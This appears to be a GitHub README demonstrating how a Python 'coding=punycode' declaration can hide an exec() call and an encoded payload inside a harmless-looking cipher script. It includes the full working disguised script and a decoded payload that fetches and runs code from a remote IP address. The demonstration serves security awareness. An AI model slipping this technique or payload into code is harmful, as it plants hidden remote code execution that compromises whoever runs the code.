 # The weird code

This is a demonstration that the encoding declarations ( https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations ) of python in conjunction with punycode encoding can be used to craft malicious code snippets that look benign.



## Demonstration Code

The code: <br>
(Note: copying this code may break it as described at the bottom of `The encoding used in the code`)

```py
#They say codying is fun, but I like puns, so when I code, coding!=funnycode, but coding=punycode ... anyways, here is some nice python code :)

I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: -47415qpygaa76ea29ah9daca59abba63qeacaacc99aad01ba90babbc80bf52ba42j1lla61b70aqa632n6a49a6a40b9a19aedb39aaead4agc17j4lb81kao43bip4nlafc6b63awaf14bvobfo1b48ac55bmava93bjap79km616kt0aa689f
```


## What does it do?
Lines with comments don't matter, right? <br>
So let's look at the code without comments first:

```py
I="I"
love="love"
python="python"

print(I, love, python)

def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))
```

Up to `print(I, love, python)` it is quite obvios: <br>
We just assign three variables and print them.
In python, printing multiple values with a single call to `print` will seperate them with a space.
So we get:

```
I love python
```

Next up is the `shift_cipher` function.
As the name indicates, it takes the character code of every character of the provided string and adds the key to it.
Then, ensures that it is between `0` and `128` (some ascii character) and converts it back to a character.

if we called `shift_cipher("abz", 1)` we would get `"bc{"` (`"{"` just happens to be the next character after `"z"`).

So if we shift `"ymnx%nx%f%xjhwjy%rjxxflj&"` by `-5`, we just have to look up the characters in an ascii table and subtract `5` and look at the character we get from that.
If we were to reach negative numbers we would have to wrap around starting at `127`.
But that never happens.

So, we expect the code to print `this is a secret message!`.


## But what does it REALLY do?

See, python is weird.
Comments are not always comments.
Especially in the first two lines, you can use comments to indicate how the python interpreter should do some things.


### Encoding

One thing you can specify is the encoding (The way how characters are encoded. This is relevant for characters that are bigger than 255 and thus cannot be represented in a single byte.).
By default, python is supposed to use `utf-8` (but I'm not sure this is the case on Windows.) - the most sensible encoding to use!
But if we want something else, we can add a comment in the first line specifying a different encoding like this:

```py
# coding=utf-16
```

More specifically it can also be in the second line, if the first line is a comment.
And, the interpreter searches for the following pattern: `coding[=:]\s*([-\w.]+)` - meaning `coding` followed directly by `=` or `:`, then an arbitrary amount of whitespace characters followed by an arbitrary amount (but at least one) of `.`, `-`, or characters that match `\w` (`a-z`, `A-Z`, `0-9`, and `_`).
One important observation: The interpreter searches this pattern ANYWHERE in the line, so the line can also contain a lot of crap apart from it.


### The encoding used in the code

So if we look through the first line of the script, we can find `coding=punycode` which matches the pattern!
So we use `punycode` to encode the file?
WTF is that?

You may know that Internet domains can contain emoji characters now (e.g., `i❤️.ws` is a valid domain).
However, everything that makes up the backbones of the internet can basically only handle ascii characters.
So punycode was invented to encode arbitrary emojis etc. in ascii strings.
Here is a link to wikipedia explaining it a bit (we will cover the important parts below anyways though): https://en.wikipedia.org/wiki/Punycode
For instance, `i❤️.ws` would be encoded as `xn--i-7iq.ws`.

The important parts of punycode encoding to understand the script is:
1. it keeps ascii characters the same and doesn't touch them
2. it removes all non-ascii characters but adds information on how to add them back in at the end of the encoded file
3. to mark the beginning of where the information to add characters back in starts, it adds a `-` character just before.

So after the last `-` character, there will be information on how to insert special characters into the script.

The reason this code may not work if you copy paste it around is that changes to whitespace or newlines (which are sometimes made by text editors) matter to the punycode encoding and will break the code.


### Looking at the ACTUAL code

I don't really understand the details of the encoding, but we can decode the script using python (this script just removes the first line containing the comment and decodes the rest using punycode):

```py
import sys
print((b"\n" + b"\n".join(open(sys.argv[1], "rb").read().split(b"\n")[1:])).decode("punycode"))
```

We get the following code (see `decoded.py`):

```py


I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ｅｘｅｃ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="﩮全冀充勺啕逸喙勺况况﩮逸勉勺頻勇喙頻喝啕逸辶喝逸充﨏頻墳頻難鶴充勉喙勺况充冀頻侀鶴﨧舘啕啕冀憎勤勤層嘆勉喝屮喝勉喝悔嘆勉喝卑卑憎喝器器屮勤逸響﨧郞勉勺頻辶響鶴郞勉響頻難充響頻鶴郞郞﨨ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: 
```

One other thing important in python is, that unicode characters that are letters (for example `ｅ`) are treated like their ascii counterparts (in this case `e`) for variable names.
So `ｅｘｅｃ` is the same as `exec`, but it disappears to the end of the file when encoding with punycode.

If you are new to python, `exec` basically takes a string and executes it as python code.
And `shift_cipher` no longer just decrypts the given string, but it also executes the result.
So if we give it ("encrypted") evil code, we may be in trouble.

We now also see that `secret` actually contains a whole lot of unicode characters, but what happens if we put them through `shift_cipher`?

The short answer is: Those symbols are chosen such that subtracting `5` from them does not convert them to usable code, but the `% 128` is also needed to make them useful.
With the `% 128` I can ensure that I can convert a unicode character that will be removed by punycode encoding and put at the end to any ascii character I want.
Thus, I can make that `shift_cipher` executes whatever python code I want after decrypting it without any characters in the python script changing except for the comment in the last line.

So what did I put into the string?
Let's decode it:

```py
import urllib.request as o
exec(o.urlopen("http://62.171.182.100:1337/bd").read().decode())#
```

This is bad!
The script sends a request to `http://62.171.182.100:1337/bd` and executes whatever it gets back.
So I basically can send arbitrary malicious python code and it gets executed!


## The moral of the story

Don't trust my code!

